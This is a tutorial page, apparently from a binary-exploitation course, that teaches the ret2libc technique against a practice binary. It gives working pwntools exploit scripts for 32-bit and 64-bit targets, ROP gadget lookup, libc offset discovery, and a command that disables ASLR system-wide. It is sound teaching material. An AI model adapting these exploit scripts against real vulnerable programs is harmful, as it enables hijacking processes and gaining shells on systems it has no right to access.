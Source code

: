 ```yaml
---
description: The standard ROP exploit
---
```


# ret2libc

A ret2libc is based off the `system` function found within the C library. This function executes anything passed to it making it the best target. Another thing found within libc is the string `/bin/sh`; if you pass this string to `system`, it will pop a shell.

And that is the entire basis of it - passing `/bin/sh` as a parameter to `system`. Doesn't sound too bad, right?

{% file src="../.gitbook/assets/ret2libc \(1\).zip" caption="ret2libc" %}

## Disabling ASLR

To start with, we are going to disable ASLR. ASLR randomises the location of libc in memory, meaning we cannot \(without other steps\) work out the location of `system` and `/bin/sh`. To understand the general theory, we will start with it disabled.

```text
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

## Manual Exploitation

### Getting Libc and its base

Fortunately Linux has a command called `ldd` for dynamic linking. If we run it on our compiled ELF file, it'll tell us the libraries it uses and their base addresses.

```text
$ ldd vuln-32 
	linux-gate.so.1 (0xf7fd2000)
	libc.so.6 => /lib32/libc.so.6 (0xf7dc2000)
	/lib/ld-linux.so.2 (0xf7fd3000)
```

We need `libc.so.6`, so the base address of libc is `0xf7dc2000`.

> Note: Libc base and the system and /bin/sh offsets may be different for you. This isn't a problem - it just means you have a different libc version. Make sure you use **your** values.

### Getting the location of system\(\)

To call system, we obviously need its location in memory. We can use the `readelf` command for this.

```text
$ readelf -s /lib32/libc.so.6 | grep system
1534: 00044f00    55 FUNC    WEAK   DEFAULT   14 system@@GLIBC_2.0
```

The `-s` flag tells `readelf` to search for symbols, for example functions. Here we can find the offset of system from libc base is `0x44f00`.

### Getting the location of /bin/sh

Since `/bin/sh` is just a string, we can use `strings` on the dynamic library we just found with `ldd`. Note that when passing strings as parameters you need to pass a **pointer** to the string, not the hex representation of the string, because that's how C expects it.

```text
$ strings -a -t x /lib32/libc.so.6 | grep /bin/sh
18c32b /bin/sh
```

`-a` tells it to scan the entire file; `-t x` tells it to output the offset in hex.

### 32-bit Exploit

```python
from pwn import *

p = process('./vuln-32')

libc_base = 0xf7dc2000
system = libc_base + 0x44f00
binsh = libc_base + 0x18c32b

payload = b'A' * 76         # The padding
payload += p32(system)      # Location of system
payload += p32(0x0)         # return pointer - not important once we get the shell
payload += p32(binsh)       # pointer to command: /bin/sh

p.clean()
p.sendline(payload)
p.interactive()
```

### 64-bit Exploit

Repeat the process with the `libc` linked to the 64-bit exploit \(should be called something like `/lib/x86_64-linux-gnu/libc.so.6`\).

Note that instead of passing the parameter in after the return pointer, you will have to use a `pop rdi; ret` gadget to put it into the RDI register.

```text
$ ROPgadget --binary vuln-64 | grep rdi

[...]
0x00000000004011cb : pop rdi ; ret
```

```python
from pwn import *

p = process('./vuln-64')

libc_base = 0x7ffff7de5000
system = libc_base + 0x48e20
binsh = libc_base + 0x18a143

POP_RDI = 0x4011cb

payload = b'A' * 72         # The padding
payload += p64(POP_RDI)     # gadget -> pop rdi; ret
payload += p64(binsh)       # pointer to command: /bin/sh
payload += p64(system)      # Location of system
payload += p64(0x0)         # return pointer - not important once we get the shell

p.clean()
p.sendline(payload)
p.interactive()
```

## Automating with Pwntools

Unsurprisingly, pwntools has a bunch of features that make this much simpler.

```python
# 32-bit
from pwn import *

elf = context.binary = ELF('./vuln-32')
p = process()

libc = elf.libc                        # Simply grab the libc it's running with
libc.address = 0xf7dc2000              # Set base address

system = libc.sym['system']            # Grab location of system
binsh = next(libc.search(b'/bin/sh'))  # Search for the string + grab 1st occurence

payload = b'A' * 76         # The padding
payload += p32(system)      # Location of system
payload += p32(0x0)         # return pointer - not important once we get the shell
payload += p32(binsh)       # pointer to command: /bin/sh

p.clean()
p.sendline(payload)
p.interactive()
```

The 64-bit looks essentially the same.

> Note: Pwntools can simplify it even more with its ROP capabilities, but I won't showcase them here.

